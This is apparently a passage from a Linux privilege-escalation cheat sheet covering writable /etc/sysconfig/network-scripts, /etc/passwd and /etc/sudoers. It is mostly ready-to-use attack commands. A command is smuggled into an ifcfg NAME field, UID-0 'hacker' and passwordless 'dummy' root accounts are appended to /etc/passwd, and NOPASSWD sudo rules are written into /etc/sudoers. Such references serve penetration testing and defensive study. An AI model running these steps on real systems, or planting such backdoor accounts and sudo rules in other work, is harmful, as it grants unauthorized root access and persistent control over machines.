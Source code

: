### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```powershell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

### Writable /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
